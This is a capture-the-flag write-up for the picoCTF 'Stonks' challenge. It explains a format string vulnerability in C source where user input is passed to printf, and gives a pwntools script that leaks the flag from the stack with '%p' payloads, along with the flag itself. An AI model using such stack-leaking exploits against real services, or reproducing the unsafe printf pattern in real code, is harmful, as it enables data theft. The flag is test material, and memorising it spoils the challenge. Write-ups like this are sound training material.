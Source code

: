 # Stonks

## Description

Author: madStacks

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! vuln.c nc mercury.picoctf.net 53437

## Challenge

We are not given a binary for this challenge, only the source code.
The program begins with an interactive prompt, where we can choose to view our portfolio or buy stonks.

Viewing our portfolio exits, as we do not have any stonks.

Buying stonks will prompt us for an API key, then present us with our new portfolio containing our new stonks.

### Relevant source code

```c
int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}
```

## Solution

The `buy_stonks` function contains a format string vulnerability, where user input is passed directly to `printf`.

In this same function, the flag is written onto the stack from a file.

We can use either the `%x` or `%p` format string types to print the contents of the stack as hexadecimal numbers.
These can be converted to ascii and printed to find the flag.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host mercury.picoctf.net --port 53437
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './path/to/binary'

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'mercury.picoctf.net'
port = int(args.PORT or 53437)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.sendline('1')
payload = ''
payload += '%p.' * 28
io.sendline(payload)
io.recvuntil('token:\n')

raw = io.recvline().decode().split('.')

flag = ''
flagging = False

for i in raw:
    if(i[0] != '('):
        try:
            print(i)
            a = bytearray.fromhex(i[2:].ljust(8,'0')).decode()[::-1]
            if 'pico' in a:
                flagging = True
            if flagging:
                flag += a
        except:
            pass

io.recvall()

print(flag)
```

## Flag

`picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}`

